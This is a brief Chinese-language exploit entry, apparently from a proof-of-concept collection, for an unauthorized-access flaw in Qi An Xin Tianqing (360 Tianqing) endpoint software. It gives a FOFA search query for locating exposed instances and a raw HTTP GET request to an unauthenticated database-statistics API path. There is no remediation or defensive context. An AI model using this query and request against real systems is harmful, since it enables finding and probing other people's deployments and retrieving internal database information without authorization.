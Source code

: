 # 奇安信天擎 越权访问

fofa：`title="360新天擎"`

poc：

```
GET /api/dbstat/gettablessize HTTP/1.1
HOST: target

....
```

